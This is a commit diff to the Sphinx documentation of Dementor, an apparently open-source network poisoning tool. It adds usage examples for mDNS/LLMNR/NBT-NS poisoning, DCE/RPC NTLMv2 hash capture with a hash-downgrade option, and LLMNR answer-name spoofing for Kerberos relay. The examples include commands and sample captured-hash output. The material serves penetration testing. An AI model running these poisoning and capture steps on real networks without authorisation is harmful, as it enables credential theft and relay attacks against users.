

Before and after one commit to MatrixEditor/dementor, a Sphinx documentation site: the page built from docs/source/examples/multicast.rst, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown; grey boxes are pictures that could not be loaded.

Commit message:
Added an example for DCE/RPC hash capture

```diff
--- a/docs/source/examples/multicast.rst
+++ b/docs/source/examples/multicast.rst
@@ -3,21 +3,39 @@
 Multicast Poisoning ⚙️
 ======================
 
-
 .. _example_multicast_mdns:
 
-Multicast Poisoning
--------------------
+Classic Multicast Poisoning
+---------------------------
 
-To enable multicast poisoning, you have to enable the poisoners in the configuration file
-(:attr:`Dementor.mDNS`, :attr:`Dementor.NBTNS` and :attr:`Dementor.LLMNR`).
+To enable multicast poisoning, activate the poisoners in the configuration file
+(:attr:`Dementor.mDNS`, :attr:`Dementor.NBTNS`, and :attr:`Dementor.LLMNR`).
 
-A service discovery can be triggered from a Windows host for example (assuming mDNS is
-active). For instance, when trying to access file share ``FILESERVER01`` in the File
-Explorer, Windows falls back to mDNS if the name can't be resolved through normal DNS
-queries.
+.. tabs::
 
-The output of Dementor should look like this (analyze mode):
+    .. tab:: Dementor.toml
+
+        .. code-block:: toml
+            :emphasize-lines: 3-5
+
+            [Dementor]
+            # [...]
+            mDNS = true
+            LLMNR = true
+            NBTNS = true
+            # [...]
+
+    .. tab:: CLI
+
+        .. code-block:: console
+
+            $ Dementor -I "$INTERFACE" -O LLMNR=On -O mDNS=On -O NBTNS=On
+
+You can trigger a discovery request from a Windows host, assuming mDNS is active. For example,
+trying to access the file share ``\\FILESERVER01`` via File Explorer causes Windows to fall back to
+mDNS when DNS resolution fails.
+
+Dementor output in analyze mode should look like this:
 
 .. container:: demo
 
@@ -29,26 +47,85 @@ The output of Dementor should look like this (analyze mode):
         MDNS       192.168.56.115  5353   [*] Request for FILESERVER01.local (class: IN, type: AAAA)
         [...]
 
-The Windows host sends two queries, one for IPv4 (``A``) and one for IPv6 (``AAAA``). This packet is
-sent via Layer 2 broadcast and Layer 3 multicast to all devices on the subnet (mDNS is link-local
-only). All devices listening on port ``5353`` receive it.
+The Windows client issues two queries: one for IPv4 (``A``) and one for IPv6 (``AAAA``). These are
+sent using Layer 2 broadcast and Layer 3 multicast to all devices on the subnet. Since mDNS is
+link-local only, all hosts listening on port ``5353`` will receive the request.
 
+----
+
+.. _examples_multicast_rpc:
+
+Using Multicast Poisoning for DCE/RPC Calls
+-------------------------------------------
+
+Multicast poisoning can also be used to capture NTLM hashes via DCE/RPC requests using Dementor's
+built-in :ref:`config_dcerpc` service. By default, any call involving DCOM or the Endpoint Mapper (EPM)
+is available.
+
+.. tabs::
+
+    .. tab:: Dementor.toml
+
+        .. code-block:: toml
+            :emphasize-lines: 3
+
+            [Dementor]
+            # [...]
+            RPC = true
+            # [...]
+
+    .. tab:: CLI
+
+        .. code-block:: console
+
+            $ Dementor -I "$INTERFACE" -O RPC=On
+
+.. hint::
+    You can attempt to downgrade the captured NTLM hash using :attr:`NTLM.ExtendedSessionSecurity`.
+    To test this via the CLI:
+
+    .. code-block:: console
+
+        $ Dementor -I "$INTERFACE" -O RPC=On -O RPC.ExtendedSessionSecurity=Off
+
+To trigger a multicast-based RPC call, use a Windows tool such as ``gpresult`` to request Group
+Policy data from a machine whose name will be resolved via mDNS:
+
+.. container:: demo
+
+    .. code-block:: text
+
+        PS C:\Users\padawan> gpresult /S GROUPOLICYSRV /Z
+        Type the password for OUTPOST\padawan:
+
+If successful, Dementor will output something similar, including a captured NTLMv2 hash:
+
+.. container:: demo
+
+    .. code-block:: console
+        :emphasize-lines: 4,8-10
+
+        $ Dementor -I "$INTERFACE" -O RPC=On
+        # [...]
+        MDNS       192.168.56.120            5353   [*] Request for GROUPOLICYSRV.local (class: IN, type: AAAA)
+        MDNS       192.168.56.120            5353   [+] Sent poisoned answer to 192.168.56.120
+        # [...]
+        DCE/RPC    192.168.56.120 135    [*] Bind request for [MS-DCOM]: Distributed Component Object Model (DCOM) Remote v0.0 (TransferSyntax Negotiation)
+        DCE/RPC    192.168.56.120 135    [*] Bind request for [MS-DCOM]: Distributed Component Object Model (DCOM) Remote v0.0 (NTLMSSP_NEGOTIATE)
+        DCE/RPC    192.168.56.120 135    [+] Captured NTLMv2 Hash for padawan/OUTPOST from fe80::a0c0:8ed2:6788:65f1:
+        DCE/RPC    192.168.56.120 135    NTLMv2 Username: padawan
+        DCE/RPC    192.168.56.120 135    NTLMv2 Hash: padawan::OUTPOST:313333374c454554:025aae2633c04b165fe8a601ed483fa4[...]
+
+----
 
 .. _examples_multicast_llmnr_answername:
 
 LLMNR Answer-Name Spoofing
 --------------------------
 
-Building on standard multicast poisoning techniques, Synacktiv introduced an advanced method that
-enables Kerberos relaying attacks through manipulated response names. This behavior can be triggered
-by setting a custom :attr:`LLMNR.AnswerName`.
-
-
-.. seealso::
-
-    Synacktiv's excellent write-up on how to leverage this behavior for pre-authenticated Kerberos relay:
-    `Abusing multicast poisoning for pre-authenticated Kerberos relay over HTTP with Responder and krbrelayx <https://www.synacktiv.com/publications/abusing-multicast-poisoning-for-pre-authenticated-kerberos-relay-over-http-with>`_
-
+Beyond traditional multicast poisoning, Synacktiv introduced a technique that enables Kerberos
+relaying via spoofed response names. This can be triggered by setting a custom
+:attr:`LLMNR.AnswerName`.
 
 .. tabs::
 
@@ -60,21 +137,26 @@ by setting a custom :attr:`LLMNR.AnswerName`.
             [LLMNR]
             AnswerName = "other-srv"
 
-
     .. tab:: CLI
 
         .. code-block:: console
 
             $ Dementor -I "$INTERFACE" -O LLMNR.AnswerName="other-srv"
 
+.. seealso::
+
+    Synacktiv's excellent write-up on abusing this for pre-authenticated Kerberos relay attacks:
+
+    - `Abusing multicast poisoning for pre-authenticated Kerberos relay over HTTP with Responder and krbrelayx <https://www.synacktiv.com/publications/abusing-multicast-poisoning-for-pre-authenticated-kerberos-relay-over-http-with>`_
+
+Example output when using a spoofed LLMNR answer name:
 
 .. container:: demo
 
     .. code-block:: console
         :caption: Dementor output if :attr:`LLMNR.AnswerName` is set (here ``"other-srv"``)
+        :emphasize-lines: 2,4
 
-        LLMNR      fe80::8930:4b9c:f67c:f9bf 5355   [*] Query for SomeService (type: A)
-        LLMNR      fe80::8930:4b9c:f67c:f9bf 5355   [+] Sent poisoned answer to fe80::8930:4b9c:f67c:f9bf (spoofed name: other-srv)
         LLMNR      192.168.56.116            5355   [*] Query for SomeService (type: A)
         LLMNR      192.168.56.116            5355   [+] Sent poisoned answer to 192.168.56.116 (spoofed name: other-srv)
         LLMNR      fe80::8930:4b9c:f67c:f9bf 5355   [*] Query for SomeService (type: AAAA)
```
